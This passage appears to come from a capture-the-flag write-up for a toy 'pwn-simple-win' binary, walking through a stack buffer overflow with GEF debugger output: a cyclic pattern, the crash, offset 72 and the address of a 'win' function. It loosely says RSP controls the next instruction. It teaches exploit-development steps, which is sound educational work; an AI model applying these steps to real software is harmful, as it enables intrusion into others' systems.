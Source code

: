Here we gave the program 100 'A's, much larger than the buffer we saw inside the main function, and the result? The binary segments or crashes because it tried to jump to an invalid address. The reason behind this is because we filled that name buffer so much, that it kept writing over the stack, and thus the return register.

In our case, the binary is compiled in x86-64, so the register that controls the next instruction is RSP. This is the register we want to control since it will let us control what instruction the binary jumps to next. We can do this very easily using [de Bruijn Sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence), also known as a cyclic pattern, which is also built into [GEF](https://hugsy.github.io/gef/)! We can easily get the offset needed to get RSP by doing the following:


```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'

gef➤  run
hey bud, how's it goin'? what's your name?
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda38│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaa"       ← $rsp
0x00007fffffffda40│+0x0008: "kaaaaaaalaaaaaaamaaa"
0x00007fffffffda48│+0x0010: "laaaaaaamaaa"
0x00007fffffffda50│+0x0018: 0x000000006161616d ("maaa"?)
0x00007fffffffda58│+0x0020: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda60│+0x0028: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda68│+0x0030: 0x6d6484d5603fb66b
0x00007fffffffda70│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40128f in main (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40128f → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

gef➤  pattern search $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

And just like magic, we now know the offset we need to control RSP is 72. Now all that's left is to get the address for the `win` function. We can do that pretty easily:

```
gef➤  info func win
All functions matching regular expression "win":

Non-debugging symbols:
0x0000000000401186  win
```
